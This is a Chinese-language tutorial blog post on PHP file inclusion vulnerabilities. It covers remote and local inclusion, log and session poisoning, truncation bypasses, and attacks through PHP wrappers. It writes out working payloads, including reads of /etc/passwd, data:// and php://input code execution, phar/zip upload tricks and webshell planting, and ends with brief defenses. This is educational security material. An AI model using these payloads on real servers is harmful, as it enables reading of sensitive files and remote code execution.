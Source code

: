 ```yaml
---
title: 文件包含漏洞
tags:
  - 文件包含
  - 漏洞原理
  - PHP
categories:
  - - 安全技术
  - - 漏洞原理
description: 本文介绍了文件包含漏洞的基本原理
abbrlink: 4089de4e
date: 2025-04-10 20:56:11
---
```


# 文件包含漏洞

# 原理

服务端提供了从另一个页面加载另一个页面的功能，且该功能的接口是用户可控的，由于程序未对用户的输入做严格的过滤，或者过滤不够严谨，就可能导致文件包含的漏洞。文件包含的函数又include\include_once_once，include在包含一个文件时如果出错只会抛出警告，程序还是会继续执行，require则会直接结束，还有可能是file_get_contengs。这写函数将直接读取文件内容，并将文件内容原样输出到要包含文件的文件中，因为该文件拥有合乎规则的执行权限，所以，被包含文件中的恶意代码将被执行。我们利用文件包含漏洞上传的图片马往往就利用文件包含的这个特性得以执行。

`需要开启allow_url_include 和 allow_url_fopen` 允许文件包含和允许读取文件

# 远程文件包含

可以使用http协议从远程包含我们的恶意代码到目标文件

`?file=http://www.baidu.com/hack.php` 任意文件后缀都可以

# 本地文件包含

配合目录穿越漏洞，获取服务器本地文件系统的敏感文件、执行php代码

**目录穿越：** ../../../../../../../etc/passwd

### session文件包含

利用php默认的session存储路径及来实现恶意代码执行

linux session文件在目录`/var/lib/php/session`中，可以通过phpinfo搜索`session_save_path`查看，session文件的命名规则是`sess_phpsessionid` session我们可以通过抓包获取。如果用户上传的参数被写入到session中，我们就可以利用文件包含漏洞执行恶意代码，前提是当前php中间件具有对session文件及其父目录的读权限。

### sshlog文件包含

利用ssh的日志信息，通过ssh登录时将恶意代码写入到用户名部分，再利用远程文件包含漏洞执行该文件。

ssh默认日志路径：`/var/log/auth.log`

ssh登录姿势：ssh @192.168.0.102

日志文件中记录

![](https://www.notion.so/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled.png)

%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled.png

### apache2访问日志，错误日志

日志文件路径：`/var/log/apache2/access.log|error.log`

利用方式：直接访问不存在的路径：`http://www.armandhe.com/<?php phpinfo();?>` 因为url中的数据会被编码，所以在访问的时候需要抓包后，修改上传参数为为编码的格式。

**那么mysql的访问日志是不是也可以做同样的操作**

**上述访问日志的方式有一个前提条件就是php要有读这些目录以及文件的权限**

# 绕过姿势

### 本地文件包含有限制的染过

%00截断

路劲长度截断

**一个特性：linux中目录最长不超过4096字节，超出的部分将被丢弃，windows中目录最长不超过256字节，超过的将被丢弃**

通过…………………………………………或者../../../../../截断

### 远程文件包含绕过

？# space空格

### php伪协议

**php://filter ———-读取本地文件 只需开启allow_url_fopen**

`?file=php://filter/convert.base64-encode/resource=file://c:/windows/win.ini`

有些文件中包含一些特殊字符，直接用file协议可能无法读取成功，所以先进行base编码之后再来传输。

**php://input—————读取post数据 需同时开启两个配置项**

当代码中处理用户上传数据使用的是file_get_contents的时候就可以使用该协议

该函数获取原始post请求的方式是`file_get_contents("php://input")`

那么我们就可以将`php://input` 作为参数传上去，而具体的post内容通过抓包更改请求头类型，添加请求体来实现。

![](https://www.notion.so/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled%201.png)

%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled%201.png

可以直接在当前目录中写入木马，然后用蚁剑链接

![](https://www.notion.so/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled%202.png)

%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled%202.png

或者直接执行操作系统命令

![](https://www.notion.so/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled%203.png)

%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled%203.png

**file:// —————读取本地文件**

`?file=file:///etc/passwd`

**data://————读取本地文件 配合file_get_contents使用**

`?file=data://text/plain;base64,cGhwaW5mbygpOw==`

**phar://————解压缩 有效**

`?file=phar://hack.png/hack.php` hack实际上是一个压缩文件，只不过后缀名在压缩完成后被手动修改伪png来绕过过滤策略，且压缩的格式必须为zip。可以配合文件上传漏洞使用

**zip://————-解压缩 有效**

`?file=zip://hack.png#hack.php` hack文件是在hack.zip中真实存在的，hack是压缩文件压缩后修改的后缀名为png。功能和phar一样

**测试代码**fang

[hack.zip](hack.zip)

[pharTest.php](pharTest.php)

# 防御

关闭allow_url_include

将open_basedir 设置为指定目录，即只允许该目录文件被访问。

设置白名单

设置黑名单，过滤危险协议关键字，

# 危害

1. 敏感文件泄露
2. 被getshell
3. 任意命令执行